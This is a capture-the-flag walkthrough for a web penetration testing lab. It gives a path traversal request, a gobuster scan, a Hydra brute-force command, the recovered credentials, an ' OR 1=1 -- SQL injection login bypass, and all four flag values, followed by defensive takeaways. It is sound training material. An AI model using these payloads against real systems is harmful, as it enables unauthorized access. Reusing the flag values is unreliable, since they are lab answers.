







# 🏴 Web Application Penetration Testing CTF 1 — Walkthrough

> **Target:** `http://target.ine.local`  
> **Objective:** Identify web application vulnerabilities and capture 4 hidden flags.  
> **Date:** June 11, 2026  
> **Author:** CTF Player

---

## 📋 Table of Contents

1. [Flag 1: Hidden in Plain Sight (LFI / Directory Traversal)](#flag-1)
2. [Flag 2: Directory Enumeration](#flag-2)
3. [Flag 3: Weak Authentication (Brute Force)](#flag-3)
4. [Flag 4: SQL Injection (Authentication Bypass)](#flag-4)
5. [Summary & Key Takeaways](#summary)

---

## 🚩 Flag 1: Hidden in Plain Sight

**Hint:** *Sometimes, important files are hidden in plain sight. Check the root ('/') directory for a file named 'flag.txt' that might hold the key to the first flag.*

### Vulnerability
**Local File Inclusion (LFI) / Directory Traversal**  
The application contains a file viewer endpoint (`/view_file`) that accepts a user-supplied filename via the `file` parameter. It fails to sanitize path traversal sequences (`../`), allowing an attacker to read arbitrary files outside the intended directory.

### Steps
1. Identify the file viewer functionality on the target site.
2. Inject a directory traversal payload to escape the web root and read the system root directory.
3. Request the file `flag.txt` located at the system root.

### Payload / Request
```http
GET /view_file?file=../../flag.txt
```

### Result
The application returns the contents of `/flag.txt` directly in the browser.

### ✅ Flag Captured
```
FLAG1_991bf7674d2e4c8ba0389e22354b2b30
```


---

## 🚩 Flag 2: Directory Enumeration

**Hint:** *Explore the structure of the server's directories. Enumeration might reveal hidden treasures.*

### Vulnerability
**Information Disclosure via Unprotected Directory**  
A hidden directory (`/secured`) exists on the server but is not linked from the main application interface. It contains a publicly accessible `flag.txt` file.

### Steps
1. Run a directory brute-force scan against the target using a common wordlist.
2. Identify the `/secured` endpoint (HTTP 308 redirect).
3. Access `/secured/flag.txt` directly.

### Command Used
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://target.ine.local
```


### Key Findings
| Directory | Status | Size | Notes |
|-----------|--------|------|-------|
| `/about` | 200 | 285B | Public page |
| `/login` | 200 | 3377B | Login portal |
| `/logout` | 302 | 189B | Logout redirect |
| `/secured` | 308 | 25B | Redirects to `/secured/` |

### Result
Navigating to `http://target.ine.local/secured/flag.txt` reveals the second flag in plaintext.



### ✅ Flag Captured
```
FLAG2_9cb1a17932424358921041351cee0daa
```

---

## 🚩 Flag 3: Weak Authentication

**Hint:** *The login form seems a bit weak. Trying out different combinations might just reveal the next flag.*

### Vulnerability
**Weak Credentials / Brute-Forceable Login**  
The login form at `/login` does not implement any rate-limiting, CAPTCHA, or account lockout mechanisms. This allows for automated credential stuffing attacks.

### Steps
1. Intercept the login request and identify the POST parameters (`username` and `password`).
2. Use Hydra to perform a dictionary attack with a short username list and a common password list.
3. Identify the valid credential pair and log in.
4. Inspect the user profile page for the hidden flag.

### Command Used
```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /root/Desktop/wordlists/100-common-passwords.txt \
      -t 32 -f -V \
      target.ine.local \
      http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username or password"
```


### Valid Credentials Found
| Username | Password |
|----------|----------|
| `guest` | `butterfly1` |

### Verification (Burp Suite Intruder)
- **Failed attempts:** HTTP 200 OK, Length ~3832
- **Successful attempt:** HTTP 302 Redirect, Length 675
- **Request:** `username=guest&password=butterfly1`

### Result
After logging in as `guest`, the profile page (`/profile/2?name=Bob+Guest`) displays the user's secret string.



### ✅ Flag Captured
```
FLAG3_8bfdd170fa244a1b6b98e5808900ee5
```

---

## 🚩 Flag 4: SQL Injection

**Hint:** *The login form behaves oddly with unexpected inputs. Think of injection techniques to access the 'admin' account and find the flag.*

### Vulnerability
**SQL Injection (SQLi) — Authentication Bypass**  
The login form dynamically constructs a SQL query using user input without proper sanitization. By injecting a tautology (`OR 1=1`) and commenting out the rest of the query, an attacker can bypass authentication and log in as the first user in the database (typically `admin`).

### Steps
1. Analyze the login form for injection points.
2. Submit a malicious password payload that alters the SQL query logic.
3. Observe that the application authenticates the session as the `admin` user.
4. Navigate to the admin profile page to retrieve the final flag.

### Payload
| Field | Value |
|-------|-------|
| `username` | `admin` |
| `password` | `' OR 1=1 --` |

> **Note:** The payload uses a single-quote to break out of the string literal, `OR 1=1` to force a true condition, and `--` to comment out the remainder of the original query.

### Result
The application processes the injected query and returns the profile for the admin account. The browser is redirected to `/profile/1?name=Admin+Account`.



### ✅ Flag Captured
```
FLAG4_c3f6e30b3f834849bc13f13d038d42f0
```

---

## 📊 Summary

| Flag | Vulnerability | Location / Payload | Value |
|------|--------------|--------------------|-------|
| **Flag 1** | LFI / Directory Traversal | `/view_file?file=../../flag.txt` | `FLAG1_991bf7674d2e4c8ba0389e22354b2b30` |
| **Flag 2** | Directory Enumeration | `/secured/flag.txt` | `FLAG2_9cb1a17932424358921041351cee0daa` |
| **Flag 3** | Brute Force | `guest` / `butterfly1` | `FLAG3_8bfdd170fa244a1b6b98e5808900ee5` |
| **Flag 4** | SQL Injection (Auth Bypass) | `admin` / `' OR 1=1 --` | `FLAG4_c3f6e30b3f834849bc13f13d038d42f0` |

---

## 🔑 Key Takeaways

- **Never trust user input:** The `file` parameter and login fields should be strictly validated and parameterized.
- **Hide sensitive paths:** Directories like `/secured` should require authentication, not just rely on "security through obscurity."
- **Implement rate limiting:** Login forms should have account lockout policies or CAPTCHA to prevent brute-force attacks.
- **Use prepared statements:** All database queries should use parameterized statements to eliminate SQL injection risks.

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| `gobuster` | Directory enumeration |
| `hydra` | Login brute-forcing |
| Burp Suite | HTTP interception & Intruder attacks |
| Browser (Firefox/Chrome) | Manual exploitation & verification |

---

> **Status:** ✅ 4/4 Flags Captured — Lab Complete! 🎉

> **Disclaimer:** This walkthrough is for educational purposes only. Always perform penetration testing on systems you own or have explicit written permission to test.
